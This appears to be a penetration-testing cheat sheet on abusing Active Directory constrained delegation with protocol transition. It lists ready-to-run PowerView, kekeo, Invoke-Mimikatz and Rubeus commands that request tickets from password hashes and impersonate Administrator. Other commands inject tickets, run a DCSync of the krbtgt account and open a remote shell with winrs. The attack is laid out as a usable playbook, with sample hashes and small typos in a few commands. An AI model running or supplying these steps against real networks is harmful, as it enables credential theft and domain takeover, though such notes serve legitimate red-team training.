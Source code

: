 # 2 Constrained Delegation with Protocol Transition

## Using PowerShell

### Methodology/Steps

> 1. List all the users having Constrained Delegation
> 2. Keep a note of the **msDS-AllowedToDelegateTo** value
> 3. Request for a TGT using the hash of the user with CD using kekeo (Which me must have collected before)
> 4. Keep a note of the TGT return ticket
> 5. Now request a TGS with the 2nd step and 4th step values as parameters in _/service_ and _/tgt_
> 6. Keep a note of the TGS return Ticket
> 7. Now we can inject the TGS return Ticket with **Inkove-Mimikatz**
> 8. We can now list the file systems of that account. Example : **`ls \\dc-mysql\C$`** but _can not_ use any **WMI-Commands**. We can use _ScriptBlock_ to execute commands on the system.
> 9. But if the user DC we can do the same process and then do a **DCSync** attack

***

### PowerView \[ Dev Branch ]

#### Enumerate users and computers with CD enabled

```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

***

### kekeo

#### Requesting a TGT

```shell
tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f
tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

#### Request a TGS

```shell
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL
```

***

### Invoke-Mimikatz

#### Inject the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```

#### Execute DCSync

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### ScriptBlock

```powershell
Inoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local
```

***

## Using Binaries

### Methodology/Steps

> 1. Use Rubeus to request a TGS for the user and inject it into memory
> 2. Remote login the machine using winrs

***

### Rubeus

#### 1. Request for a S4U

```powershell
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

#### 2. Remote login using winrs

```powershell
winrs -r:us-mssql cmd.exe
```
